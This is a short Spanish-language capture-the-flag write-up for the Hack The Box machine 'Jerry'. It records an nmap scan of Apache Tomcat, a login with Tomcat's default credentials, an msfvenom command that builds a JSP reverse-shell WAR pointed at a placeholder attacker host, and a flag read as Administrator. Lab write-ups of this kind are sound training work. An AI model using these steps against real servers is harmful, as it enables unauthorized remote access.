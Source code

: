 # Jerry ![Avatar](https://www.hackthebox.eu/storage/avatars/59f03a24178dbb2bdc94968c201e21f8_thumb.png)     

### Scan

```nmap
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```
### Enumeration

Lo unico que tenemos para enumerar en principio es un Apache Tomcat, probemos con las password por defecto de Tomcat 
```
tomcat:s3cret
```
### Exploit

Como durante la enumeración obtuvimos acceso al Manger de Tomcat, ahora tenemos la posibilidad de subir una shell en formato war al servidor, para ello vamos a generar una con msfvenom
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war
```
### Privesc

No hay privesc en esta máquina ya que tenemos acceso al administrador directamente

```
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
```
Y solo faltaría conseguir leer la flag
```cmd
C:\Users\Administrator\Desktop\flags>type 2*
```

